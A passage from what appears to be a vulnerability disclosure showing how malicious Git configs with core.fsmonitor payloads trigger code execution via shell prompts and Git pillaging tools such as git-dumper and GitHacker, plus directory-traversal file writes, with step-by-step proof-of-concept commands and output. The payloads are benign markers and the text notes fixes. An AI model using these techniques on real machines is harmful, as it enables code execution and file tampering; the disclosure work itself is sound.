The POCs above showed exploitation of a user upon having them use `cd` to change directory into that of the malicious Git repo. Another attractive exploitation vector would be to send a `.tar` file to a victim user in the hopes that they unpack it into the current directory. Upon doing so, the `.git` directory will be written into their current directory, and the shell prompt decoration will immediately run `git` against it.

Taking `git-prompt.sh` as an example:

```plain
% sudo -g docker docker run --rm -ti justinsteven/git-prompt.sh bash

/# cd $(mktemp -d)

/tmp/tmp.7oVjVTSVMY# mkdir poc

/tmp/tmp.7oVjVTSVMY# git -C poc init
Initialized empty Git repository in /tmp/tmp.7oVjVTSVMY/poc/.git/

/tmp/tmp.7oVjVTSVMY# echo -e '\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

/tmp/tmp.7oVjVTSVMY# cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"

/tmp/tmp.7oVjVTSVMY# tar -C poc -cvf poc.tar .
./
./.git/
./.git/info/
./.git/info/exclude
./.git/config
./.git/HEAD
./.git/branches/
./.git/refs/
./.git/refs/tags/
./.git/refs/heads/
./.git/description
./.git/objects/
./.git/objects/pack/
./.git/objects/info/
./.git/hooks/
./.git/hooks/push-to-checkout.sample
./.git/hooks/post-update.sample
./.git/hooks/pre-applypatch.sample
./.git/hooks/pre-commit.sample
./.git/hooks/prepare-commit-msg.sample
./.git/hooks/fsmonitor-watchman.sample
./.git/hooks/applypatch-msg.sample
./.git/hooks/pre-merge-commit.sample
./.git/hooks/commit-msg.sample
./.git/hooks/pre-push.sample
./.git/hooks/pre-rebase.sample
./.git/hooks/update.sample
./.git/hooks/pre-receive.sample

/tmp/tmp.7oVjVTSVMY# cat /tmp/win
cat: /tmp/win: No such file or directory

/tmp/tmp.7oVjVTSVMY# tar -xf poc.tar

/tmp/tmp.7oVjVTSVMY (main #)# cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)
```

## Addendum - Chaining with OVE-20210718-0001

OVE-20210718-0001 can be used to embed a bare repo within a regular repo. If a user's prompt is configured to opportunistically parse the state of a Git repo, then cloning a malicious repo and using `cd` to change directory into the directory containing the bare repo can trigger arbitrary code execution.

Taking Oh My Zsh as an example, prepare and host a malicious repo:

```plain
% sudo -g docker docker run --rm -ti justinsteven/oh-my-zsh zsh

➜  / hostname
d6ecb6b9b440

➜  / cd $(mktemp -d)

➜  tmp.7UASzK75lg git init
Initialized empty Git repository in /tmp/tmp.7UASzK75lg/.git/

➜  tmp.7UASzK75lg git:(main) mkdir poison

➜  tmp.7UASzK75lg git:(main) cd poison

➜  poison git:(main) echo 'ref: refs/heads/main' > HEAD

➜  poison git:(main) ✗ cat > config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win;false"
^D

➜  poison git:(main) ✗ mkdir objects refs worktree

➜  poison git:(main) touch worktree/.gitkeep

➜  poison git:(main) ✗ git add .gitkeep

➜  poison git:(main) ✗ git commit -m 'add gitkeep'
[main (root-commit) a6c78e4] add gitkeep
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 .gitkeep

➜  poison git:(main) cd ..

➜  tmp.7UASzK75lg git:(main) ✗ git add poison

➜  tmp.7UASzK75lg git:(main) ✗ git commit -m 'add poison'
[main (root-commit) 6bae7d3] add poison
 11 files changed, 13 insertions(+)
 create mode 100644 poison/COMMIT_EDITMSG
 create mode 100644 poison/HEAD
 create mode 100644 poison/config
 create mode 100644 poison/index
 create mode 100644 poison/logs/HEAD
 create mode 100644 poison/logs/refs/heads/main
 create mode 100644 poison/objects/a6/c78e41094a64f152fd7b2ccaa6880006c26c33
 create mode 100644 poison/objects/d5/64d0bc3dd917926892c55e3706cc116d5b165e
 create mode 100644 poison/objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391
 create mode 100644 poison/refs/heads/main
 create mode 100644 poison/worktree/.gitkeep

➜  tmp.7UASzK75lg git:(main) rm /tmp/win

➜  tmp.7UASzK75lg git:(main) git daemon --verbose --export-all --base-path=.git --reuseaddr --strict-paths .git/
[271] Ready to rumble
```

Clone the repo:

```plain
% sudo -g docker docker exec -ti d6ecb6b9b440 zsh

➜  / cd $(mktemp -d)

➜  tmp.BrUKcINXc7 git clone git://127.0.0.1/
Cloning into '127.0.0.1'...
remote: Enumerating objects: 23, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 23 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (23/23), done.
```

`cd` in to the cloned repo. Nothing happens.

```plain
➜  tmp.BrUKcINXc7 cd 127.0.0.1

➜  127.0.0.1 git:(main) cat /tmp/win
cat: /tmp/win: No such file or directory
```

`cd` in to the directory containing the bare repo. Observe that the payload executes.

```plain
➜  127.0.0.1 git:(main) cd poison

➜  poison git:(main) cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)
```

## Recommended fix for shell prompts

Do not execute `git` opportunistically for every directory. Require the user to mark a directory as trustworthy before Git integration is enabled for it. Do not put this mark in the directory itself, as if an attacker is in a position to exploit this issue (e.g. they have provided a tarball that will be unpacked) they can include the mark within the directory, defeating the protection.

# Various vulnerabilities and abuses of `core.fsmonitor` in Git pillaging tools

Git pillaging tools are offensive tools used by pentesters and attackers. The user of Git pillaging software would ordinarily use it to attack a webserver that has an exposed `.git` directory. We'll be turning the tables on such an attacker and using Git features such as `core.fsmonitor` to give us an arbitrary code execution and/or arbitrary file write primitive.

Regarding Git pillaging tools in general, consider the case where a webserver has a `.git` directory stored within the webroot, and the webserver has not been configured to block requests for files within this directory.

1. If directory indexes are enabled on the webserver then a remote attacker can recursively download the contents of the `.git` directory (e.g. using `wget --mirror`) and can then use `git checkout` to populate a working tree.
2. If directory indexes are not enabled on the webserver then a remote attacker can download well-known files from within the `.git` directory, and based on their contents can intelligently download the rest of the contents of the `.git` directory.

The first of these techniques is trivial and can be done without special software, but the second requires more effort. Implementing this strategy is the main purpose of Git pillaging tools.

In either case, a remote unauthenticated attacker can recover and reconstruct the contents of the webserver's `.git` directory and can obtain things such as application source code (including its history).

For more information on Git pillaging, see:

* <https://pentester.land/tutorials/2018/10/25/source-code-disclosure-via-exposed-git-folder.html>
* <https://www.whitehatsec.com/blog/how-i-stole-source-code-with-directory-indexing-and-git/>

The rest of this section describes the exploitation of popular software that performs this style of attack, including:

* arthaud/git-dumper - RCE and arbitrary file write with no user interaction
* WangYihang/GitHacker - RCE and arbitrary file write with no user interaction
* evilpacket/DVCS-Pillage - RCE with minimal user interaction
* internetwache/GitTools - arbitrary file write upon `extractor.sh` or RCE upon `git checkout`
* lijiejie/GitHack - Arbitrary file write with no user interaction
* kost/dvcs-ripper - RCE with no user interaction

Once again, we are discussing the exploitation of these tools. That is, the case where a malicious webserver can exploit the user of a Git pillaging tool.

## arthaud/git-dumper - RCE and Arbitrary File Write

Version tested: [d93bc9a](https://github.com/arthaud/git-dumper/blob/d93bc9a815b2eacbfe9596cef34537a6818ad052/git_dumper.py) on Linux

An arbitrary file write vulnerability was mitigated with [cbf20f1b](https://github.com/arthaud/git-dumper/commit/cbf20f1bc38a9d25f21f5cb6d91e05f6938c6d72) and a warning was added to `README.md` in [39dea36e](https://github.com/arthaud/git-dumper/commit/39dea36e0587d8d598475d72be7c69f4d0492d73) to warn the user of the unpatched RCE vulnerability.

[git-dumper](https://github.com/arthaud/git-dumper) is "a tool to dump a git repository from a website"

It takes two arguments:

* The URL of the `.git` directory being looted
* The location on disk at which to store the looted contents

It does the following:

1. If directory listings are enabled for the `.git` directory, it [recursively downloads all contents using the listings](https://github.com/arthaud/git-dumper/blob/d93bc9a815b2eacbfe9596cef34537a6818ad052/git_dumper.py#L256-L307). Else it [downloads well-known files from within the `.git` directory and parses them to identify further server-side files](https://github.com/arthaud/git-dumper/blob/d93bc9a815b2eacbfe9596cef34537a6818ad052/git_dumper.py#L451-L599).
2. [Runs `git checkout .`](https://github.com/arthaud/git-dumper/blob/d93bc9a815b2eacbfe9596cef34537a6818ad052/git_dumper.py#L601-L606) to populate the local working tree based on the looted `.git` directory.

In the simplest case, the fact that the software will download `.git` recursively if directory listings are supported by the server allows us to provide a `.git/config` file. The software will then run `git checkout .` within the worktree directory. Thus, we can run malicious code via `core.fsmonitor`. There is also at least one directory traversal vulnerability in the software in the recursive downloading of files that can be exploited to achieve an arbitrary file write. No user interaction is required to exploit either bug, aside from attempting to download a webserver's `.git` using the software.

### arthaud/git-dumper POC - RCE via `core.fsmonitor`

Build a Docker image that contains `git`, a simple Git user configuration, `python3`, `git-dumper` and its dependencies:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y git python3 python3-pip && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com" && \
    git clone https://github.com/arthaud/git-dumper.git /root/git-dumper && \
    pip3 install --user -r /root/git-dumper/requirements.txt

% sudo -g docker docker build --tag=justinsteven/git-dumper .
[... SNIP ...]
Successfully built 1241ad1df789
Successfully tagged justinsteven/git-dumper:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/git-dumper bash

root@463ed2368956:/# git -C ~/git-dumper/ log -n1
commit d93bc9a815b2eacbfe9596cef34537a6818ad052 (HEAD -> master, origin/master, origin/HEAD)
Merge: 04543ee d232805
Author: Maxime Arthaud <maxime@arthaud.me>
Date:   Sat May 15 08:11:40 2021 -0700

    Merge pull request #24 from ZanyMonk/master
    
    Handle responses lacking "Content-Type" header
```

Create an empty Git repo:

```plain
root@463ed2368956:~# cd $(mktemp -d)

root@463ed2368956:/tmp/tmp.jAFg5dhYtM# git init
Initialized empty Git repository in /tmp/tmp.jAFg5dhYtM/.git/
```

Add a file to the repo, and modify the repo's `.git/config` to contain a malicious `core.fsmonitor` value:

```plain
root@463ed2368956:/tmp/tmp.jAFg5dhYtM# touch aaaa

root@463ed2368956:/tmp/tmp.jAFg5dhYtM# git add aaaa

root@463ed2368956:/tmp/tmp.jAFg5dhYtM# git commit -m 'add aaaa'
[main (root-commit) 2350f7c] add aaaa
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 aaaa

root@463ed2368956:/tmp/tmp.jAFg5dhYtM# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> .git/config

root@463ed2368956:/tmp/tmp.jAFg5dhYtM# cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Serve the Git repo via HTTP. Note that Python's `http.server` will provide a directory listing for directories that lack an `index.html` file.

```plain
root@463ed2368956:/tmp/tmp.jAFg5dhYtM# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

Start a new shell within the Docker container. Observe that `/tmp/win` does not exist. Use `git-dumper` to pillage the published repo and observe that `/tmp/win` now contains the results of our payload:

```plain
% sudo -g docker docker exec -ti 463ed2368956 bash

root@463ed2368956:/# cat /tmp/win
cat: /tmp/win: No such file or directory

root@463ed2368956:/# ~/git-dumper/git_dumper.py
usage: git-dumper [options] URL DIR
git_dumper.py: error: the following arguments are required: URL, DIR

root@463ed2368956:/# ~/git-dumper/git_dumper.py http://127.0.0.1:4444/.git ~/loot
[-] Testing http://127.0.0.1:4444/.git/HEAD [200]
[-] Testing http://127.0.0.1:4444/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://127.0.0.1:4444/.git/ [200]
[-] Fetching http://127.0.0.1:4444/.gitignore [404]
[-] http://127.0.0.1:4444/.gitignore responded with status code 404
[... SNIP ...]
[-] Fetching http://127.0.0.1:4444/.git/config [200]
[... SNIP ...]
[-] Running git checkout .
Updated 1 path from the index

root@463ed2368956:/# cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)
```

### arthaud/git-dumper POC - Arbitrary file write via recursive downloader

Build a Docker image per the previous POC and run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/git-dumper bash

root@26c89c2aa9ba:/# git -C ~/git-dumper/ log -n1
commit d93bc9a815b2eacbfe9596cef34537a6818ad052 (HEAD -> master, origin/master, origin/HEAD)
Merge: 04543ee d232805
Author: Maxime Arthaud <maxime@arthaud.me>
Date:   Sat May 15 08:11:40 2021 -0700

    Merge pull request #24 from ZanyMonk/master
    
    Handle responses lacking "Content-Type" header
```

Create an empty Git repo to satisfy [a check for `.git/HEAD` that the software does](https://github.com/arthaud/git-dumper/blob/d93bc9a815b2eacbfe9596cef34537a6818ad052/git_dumper.py#L411-L426)

```plain
root@26c89c2aa9ba:/# cd $(mktemp -d)

root@26c89c2aa9ba:/tmp/tmp.78nDp7ndbQ# git init
Initialized empty Git repository in /tmp/tmp.78nDp7ndbQ/.git/
```

Create an `index.html` document in the `.git` directory that contains:

* A hyperlink to `HEAD` to satisfy [another check for `.git/HEAD` that the software does](https://github.com/arthaud/git-dumper/blob/d93bc9a815b2eacbfe9596cef34537a6818ad052/git_dumper.py#L436)
* A hyperlink to `../../../../../../../tmp/win2`

Furthermore, create a file called `tmp/win2`. When the client requests `/.git/../../../../../../../tmp/win2` via HTTP it will be normalised to `/tmp/win2`, but on the client side it will be written to `${loot_dir}/../../../../../../../tmp/win2`

```plain
root@26c89c2aa9ba:/tmp/tmp.78nDp7ndbQ# echo '<html><body><a href="HEAD">z</a><a href="../../../../../../../tmp/win2">z</a></body></html>' > .git/index.html

root@26c89c2aa9ba:/tmp/tmp.78nDp7ndbQ# mkdir tmp

root@26c89c2aa9ba:/tmp/tmp.78nDp7ndbQ# echo 'Hello, world!' > tmp/win2
```

Serve the Git repo via HTTP:

```plain
root@26c89c2aa9ba:/tmp/tmp.78nDp7ndbQ# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

Start a new shell within the Docker container. Observe that `/tmp/win2` does not exist. Use `git-dumper` to pillage the published repo and observe that `/tmp/win2` now contains evidence of our arbitrary file write:

```plain
% sudo -g docker docker exec -ti 26c89c2aa9ba bash

root@26c89c2aa9ba:/# cat /tmp/win
cat: /tmp/win: No such file or directory

root@26c89c2aa9ba:/# ~/git-dumper/git_dumper.py
usage: git-dumper [options] URL DIR
git_dumper.py: error: the following arguments are required: URL, DIR

root@26c89c2aa9ba:/# ~/git-dumper/git_dumper.py http://127.0.0.1:4444/.git ~/loot
[-] Testing http://127.0.0.1:4444/.git/HEAD [200]
[-] Testing http://127.0.0.1:4444/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://127.0.0.1:4444/.git/ [200]
[-] Fetching http://127.0.0.1:4444/.gitignore [404]
[-] http://127.0.0.1:4444/.gitignore responded with status code 404
[-] Fetching http://127.0.0.1:4444/.git/../../../../../../../tmp/win2 [200]
[-] Fetching http://127.0.0.1:4444/.git/HEAD [200]
[-] Running git checkout .
fatal: not a git repository (or any of the parent directories): .git
Traceback (most recent call last):
  File "/root/git-dumper/git_dumper.py", line 724, in <module>
    main()
  File "/root/git-dumper/git_dumper.py", line 712, in main
    fetch_git(
  File "/root/git-dumper/git_dumper.py", line 448, in fetch_git
    subprocess.check_call(["git", "checkout", "."])
  File "/usr/lib/python3.9/subprocess.py", line 373, in check_call
    raise CalledProcessError(retcode, cmd)
subprocess.CalledProcessError: Command '['git', 'checkout', '.']' returned non-zero exit status 128.

root@26c89c2aa9ba:/# cat /tmp/win2
Hello, world!
```

## WangYihang/GitHacker - RCE and Arbitrary File Write

* Version tested: [ecc1f2c](https://github.com/WangYihang/GitHacker/blob/ecc1f2cc394d347461a13df7d2ed4e8b94aad9f3/GitHacker/__init__.py) (v. 1.0.10) on Linux
* Also tested: [673dedb](https://github.com/WangYihang/GitHacker/tree/673dedb2eb6847629ebba51d57c3b8cfda6e4fd5) (v. 1.0.11) on Linux
* Also tested: [e22d81f](https://github.com/WangYihang/GitHacker/commit/e22d81f3eef391f7c66f4396c2e6c7d76dd6a5ea) (v. 1.1.0) on Linux

An arbitrary file write vulnerability was fixed with [f97710c](https://github.com/WangYihang/GitHacker/commit/f97710c2cf0351308fc81666448e00004b7d14f9) and RCE via `.git/config` was fixed with [806095e8](https://github.com/WangYihang/GitHacker/commit/806095e807d20e06d5f192928f1f525510a34688). In the same commit, a warning was added to `README.md` suggesting that the software be run in a "disposable jailed environment (e.g. docker container)" which is excellent advice.

[GitHacker](https://github.com/WangYihang/GitHacker) says:

> This is a multiple threads tool to detect whether a site has the .git folder leakage vulnerability. It is able to download the target .git folder almost completely. This tool also works when the DirectoryListings feature is disabled. It is worth mentioning that this tool will download almost all files of the target git repository and then rebuild them locally, which makes this tool State of the art in this area. For example, tools like githack just simply restore the latest version. With GitHacker's help, you can view the developer's commit history, which makes a better understanding of the character and psychology of developers, so as to lay the foundation for further code audition.

Its way of working is very similar to `git-dumper` (Discussed above)

1. If the remote webserver has directory listings enabled it [recursively downloads](https://github.com/WangYihang/GitHacker/blob/ecc1f2/GitHacker/__init__.py#L63-L82) the contents of `.git/`; else it [downloads well-known files, parses them, and intelligently gathers the rest of the files](https://github.com/WangYihang/GitHacker/blob/ecc1f2cc394d347461a13df7d2ed4e8b94aad9f3/GitHacker/__init__.py#L84-L115)
2. It does a [git checkout](https://github.com/WangYihang/GitHacker/blob/ecc1f2cc394d347461a13df7d2ed4e8b94aad9f3/GitHacker/__init__.py#L117-L126) to unpack the `.git/` directory into a working tree

Much like in the case of `git-dumper`, this is vulnerable to RCE via a `config` file containing a `core.fsmonitor` directive, as well as arbitrary file write during the recursive downloading of files.

**Update**: I initially tested v. 1.0.10 in July of 2021. Version 1.10.11 was released 14 August, 2021. This version fixed a near-collision of the vulnerability I discovered. However, both of the issues as I describe them in this section are unfixed, and the POCs that work against v 1.0.10 also work against v. 1.0.11. This is discussed in more depth in the section titled "Update: WangYihang/GitHacker v. 1.0.11".

### WangYihang/GitHacker v. 1.0.10 POC - RCE via `core.fsmonitor`

Build a Docker image that contains `git`, a simple Git user configuration, `python3`, `GitHacker` and its dependencies. Use its `setup.py` to install it to `/root/.local/bin/`.

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y git python3 python3-pip && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com" && \
    git clone https://github.com/WangYihang/GitHacker.git /root/GitHacker && \
    cd /root/GitHacker && \
    pip3 install --user -r requirements.txt && \
    python3 setup.py install --user

% sudo -g docker docker build --tag=justinsteven/githacker .
[... SNIP ...]
Successfully built 0bd4685fe16c
Successfully tagged justinsteven/githacker:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/githacker bash

root@8049285e587f:/# git -C ~/GitHacker/ log -n1
commit ecc1f2cc394d347461a13df7d2ed4e8b94aad9f3 (HEAD -> master, origin/master, origin/HEAD)
Author: Wang Yihang <wangyihanger@gmail.com>
Date:   Mon Jul 5 22:45:11 2021 +0800

    [+] Fix SSL verification

root@8049285e587f:/# ~/.local/bin/githacker --version
1.0.10
```

Create an empty Git repo:

```plain
root@8049285e587f:/# cd $(mktemp -d)

root@8049285e587f:/tmp/tmp.bcj4GIQGdk# git init
Initialized empty Git repository in /tmp/tmp.bcj4GIQGdk/.git/
```

Modify the repo's `.git/config` to contain a malicious `core.fsmonitor` value:

```plain
root@8049285e587f:/tmp/tmp.bcj4GIQGdk# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> .git/config

root@8049285e587f:/tmp/tmp.bcj4GIQGdk# cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Serve the Git repo via HTTP. Note that Python's `http.server` will provide a directory listing for directories that lack an `index.html` file.

```plain
root@8049285e587f:/tmp/tmp.bcj4GIQGdk# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

Start a new shell within the Docker container. Observe that `/tmp/win` does not exist. Use `~/.local/bin/githacker` to pillage the published repo and observe that `/tmp/win` now contains the results of our payload:

```plain
% sudo -g docker docker exec -ti 8049285e587f bash

root@8049285e587f:/# cd $(mktemp -d)

root@8049285e587f:/tmp/tmp.j12ogDzlCe# cat /tmp/win
cat: /tmp/win: No such file or directory

root@8049285e587f:/tmp/tmp.j12ogDzlCe# ~/.local/bin/githacker
usage: githacker [-h] --url URL --folder FOLDER [--brute]
                 [--threads THREADS] [--version]
githacker: error: the following arguments are required: --url, --folder

root@8049285e587f:/tmp/tmp.j12ogDzlCe# ~/.local/bin/githacker --url http://127.0.0.1:4444 --folder loot
2021-08-02 14:04:51 INFO Downloading basic files...
2021-08-02 14:04:51 INFO [73 bytes] 200 .git/description
2021-08-02 14:04:51 ERROR [469 bytes] 404 .git/COMMIT_EDITMSG
2021-08-02 14:04:51 ERROR [469 bytes] 404 .git/FETCH_HEAD
2021-08-02 14:04:51 INFO [147 bytes] 200 .git/config
2021-08-02 14:04:51 INFO [21 bytes] 200 .git/HEAD
[... SNIP ...]
2021-08-02 14:04:51 INFO Downloading head files...
2021-08-02 14:04:51 INFO Downloading blob files...
2021-08-02 14:04:51 INFO Running git fsck files...
2021-08-02 14:04:51 INFO Checkout files...
2021-08-02 14:04:51 INFO Check it out in folder: loot

root@8049285e587f:/tmp/tmp.j12ogDzlCe# cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)
```

### WangYihang/GitHacker v. 1.0.10 POC - Arbitrary file write via recursive downloader

Build a Docker image per the previous POC and run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/githacker bash

root@7ab66dc289c4:/# git -C ~/GitHacker/ log -n1
commit ecc1f2cc394d347461a13df7d2ed4e8b94aad9f3 (HEAD -> master, origin/master, origin/HEAD)
Author: Wang Yihang <wangyihanger@gmail.com>
Date:   Mon Jul 5 22:45:11 2021 +0800

    [+] Fix SSL verification

root@7ab66dc289c4:/# ~/.local/bin/githacker --version
1.0.10
```

Create an empty Git repo:

```plain
root@7ab66dc289c4:/# cd $(mktemp -d)

root@7ab66dc289c4:/tmp/tmp.P9iCpNJiAj# git init
Initialized empty Git repository in /tmp/tmp.P9iCpNJiAj/.git/
```

Create an `index.html` document in the `.git` directory that contains:

* `<title>Index of` (to satisfy a [check for directory listings that the software does](https://github.com/WangYihang/GitHacker/blob/ecc1f2cc394d347461a13df7d2ed4e8b94aad9f3/GitHacker/__init__.py#L51-L57))
* A hyperlink to `../../../../../../../tmp/win2`

Furthermore, create a file called `tmp/win2`. When the client requests `/.git/../../../../../../../tmp/win2` via HTTP it will be normalised to `/tmp/win2`

```plain
root@7ab66dc289c4:/tmp/tmp.P9iCpNJiAj# echo '<html><head><title>Index of</title></head><body><a href="./../../../../../../tmp/win2">z</a></body></html>' > .git/index.html

root@7ab66dc289c4:/tmp/tmp.P9iCpNJiAj# mkdir tmp

root@7ab66dc289c4:/tmp/tmp.P9iCpNJiAj# echo 'Hello, world!' >> tmp/win2
```

Serve the Git repo via HTTP:

```plain
root@7ab66dc289c4:/tmp/tmp.P9iCpNJiAj# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

Start a new shell within the Docker container. Observe that `/tmp/win2` does not exist. Use `~/.local/bin/githacker` to pillage the published repo and observe that `/tmp/win2` now contains evidence of our arbitrary file write:

```plain
% sudo -g docker docker exec -ti 7ab66dc289c4 bash

root@7ab66dc289c4:/# cd $(mktemp -d)

root@7ab66dc289c4:/tmp/tmp.Kj0fVYuU4Y# cat /tmp/win2
cat: /tmp/win2: No such file or directory

root@7ab66dc289c4:/tmp/tmp.Kj0fVYuU4Y# ~/.local/bin/githacker
usage: githacker [-h] --url URL --folder FOLDER [--brute]
                 [--threads THREADS] [--version]
githacker: error: the following arguments are required: --url, --folder

root@7ab66dc289c4:/tmp/tmp.Kj0fVYuU4Y# ~/.local/bin/githacker --url http://127.0.0.1:4444 --folder loot
2021-08-02 14:14:17 INFO Directory listing enable under: apache
2021-08-02 14:14:17 INFO [14 bytes] 200 .git/./../../../../../../tmp/win2
2021-08-02 14:14:17 INFO Checkout files...
2021-08-02 14:14:17 INFO Check it out in folder: loot

root@7ab66dc289c4:/tmp/tmp.Kj0fVYuU4Y# cat /tmp/win2
Hello, world!
```

### Update: WangYihang/GitHacker v. 1.0.11

As briefly mentioned above, a closely related vulnerability was fixed in GitHacker v. 1.0.11.

The issue was fixed in [commit e105b5c](https://github.com/WangYihang/GitHacker/commit/e105b5c04329e9c4b8080029976bc73d12b1f23f) which says:

> the security issue would lead to arbitrary file writing on the user's machine, which could be extremely dangerous when some critical file be overwritten (eg: the crontab file, ssh-keys)

Furthermore, an update to README.md in [commit 3c7b99f](https://github.com/WangYihang/GitHacker/commit/3c7b99fb58e1ac6c1ce08f8d011ce745c5b4c279) says:

```
## Security Issues

#### 2021-08-01 [Fixed](https://github.com/WangYihang/GitHacker/commit/e105b5c04329e9c4b8080029976bc73d12b1f23f): Malicious .git folder maybe harmful to the user of this tool

* [别想偷我源码：通用的针对源码泄露利用程序的反制（常见工具集体沦陷）](https://drivertom.blogspot.com/2021/08/git.html)
```

Driver Tom's advisory ([translated to English](https://drivertom-blogspot-com.translate.goog/2021/08/git.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-GB&_x_tr_pto=nui)) discusses the use of [GitPython](https://pypi.org/project/GitPython/) to manufacture Git repositories that contain references to files that should be checked out at a path involving directory traversal sequences. This is essentially a cleaner implementation of the hacking of `.git/index` I use against various Git pillagers in this larger section. The end result of Driver Tom's work is that Git pillaging tools can be made to write arbitrary files at arbitrary locations on the user's disk. What it misses is the ability to use a malicious `config` file to achieve arbitrary code execution.

The fix adopted by GitHacker is to download the files to a temporary directory, and then do a local `git clone` operation from the temporary directory to the ultimate destination.

In my testing, by doing `git clone` instead of `git checkout`, this would have prevented exploitation via `core.fsmonitor`. When doing a local `git clone` from A to B, a config file within A is not honoured. However, GitHacker [runs `git fsck` within the context of the downloaded files before doing `git clone`](https://github.com/WangYihang/GitHacker/blob/673dedb2eb6847629ebba51d57c3b8cfda6e4fd5/GitHacker/__init__.py#L105-L118). This is enough to trigger `core.fsmonitor` within a malicious `config` file.

Furthermore, the arbitrary file write via HTTP recursive download was not addressed in the fix for Driver Tom's reported issue.

The above POCs also work on GitHacker v. 1.0.11.

## evilpacket/DVCS-Pillage `gitpillage.sh` - RCE

Version tested: [009a35c](https://github.com/evilpacket/DVCS-Pillage/blob/009a35cc1a67d4b9b791fe6c58d14f222a4605e6/gitpillage.sh) on Linux

Unpatched as of 2022-03-15.

[evilpacket/DVCS-Pillage](https://github.com/evilpacket/DVCS-Pillage) says:

> I thought it would be useful to automate some other techniques I found to extract code, configs and other information from a git,hg, and bzr repo's identified in a web root that was not 100% cloneable. Each script extracts as much knowledge about the repo as possible through predictable file names and known object hashes, etc.

It provides [gitpillage.sh](https://github.com/evilpacket/DVCS-Pillage/blob/master/gitpillage.sh) which is able to recursively download `.git` from a webserver without using directory indexing. It does so by downloading well-known Git files, asking Git to process them to reveal the names of missing files within `.git/`, and then downloading those files.

More specifically, it does the following:

1. [Does `git init`](https://github.com/evilpacket/DVCS-Pillage/blob/009a35cc1a67d4b9b791fe6c58d14f222a4605e6/gitpillage.sh#L69) to create a skeleton local repo
2. [Considers downloading `HEAD` and `config`](https://github.com/evilpacket/DVCS-Pillage/blob/009a35cc1a67d4b9b791fe6c58d14f222a4605e6/gitpillage.sh#L72-L74) from the webserver's `.git`. Note, however, that neither file will be actually downloaded, and thus are not under our control (See explanation below)
3. [Parses the local `HEAD` file](https://github.com/evilpacket/DVCS-Pillage/blob/009a35cc1a67d4b9b791fe6c58d14f222a4605e6/gitpillage.sh#L76-L78). Roughly speaking, it uses `awk` to extract the second word from the file, and then considers downloading `.git/<second_word_from_file>`
4. [Parses the file downloaded in step 3](https://github.com/evilpacket/DVCS-Pillage/blob/009a35cc1a67d4b9b791fe6c58d14f222a4605e6/gitpillage.sh#L80-L81). It reads the contents of the downloaded file and considers downloading `.git/objects/<2a>/<40b>` where `2a` is the first two characters of the contents of the downloaded file, and `40b` is the subsequent 40 characters.
5. [Considers downloading `.git/index`](https://github.com/evilpacket/DVCS-Pillage/blob/009a35cc1a67d4b9b791fe6c58d14f222a4605e6/gitpillage.sh#L84)
6. Runs `git ls-files --stage` and `git fsck` to [identify missing files within `.git/objects` and considers downloading them](https://github.com/evilpacket/DVCS-Pillage/blob/009a35cc1a67d4b9b791fe6c58d14f222a4605e6/gitpillage.sh#L99-L118)
7. For each line in `git ls-files` it [runs `git checkout`](https://github.com/evilpacket/DVCS-Pillage/blob/009a35cc1a67d4b9b791fe6c58d14f222a4605e6/gitpillage.sh#L120-L127) on that line

The reason why I say "considers downloading" in the above listing is that the [downloader function](https://github.com/evilpacket/DVCS-Pillage/blob/009a35cc1a67d4b9b791fe6c58d14f222a4605e6/gitpillage.sh#L49-L58) will only download a file if it doesn't already exist locally. Importantly, this means we cannot control the contents of `.git/config`. The `git init` done in step 1 will create `.git/` and its contents, including an initial `config` file, and so nothing we do can cause this file to be overwritten.

However, we do get to control the client's `.git/index` file. The fact that a final `git checkout` is based on the results of `git ls-files` thus gives us an arbitrary file write primitive.

By crafting the contents of `.git/index` we can cause Git to check out files to within the `.git` directory, bypassing the usual protections that prevent a `checkout` from modifying the Git directory.

For example:

```plain
% sudo -g docker docker run --rm -ti justinsteven/git bash

root@8d5dcf3ae139:/# git --version
git version 2.32.0

root@8d5dcf3ae139:/# cd $(mktemp -d)

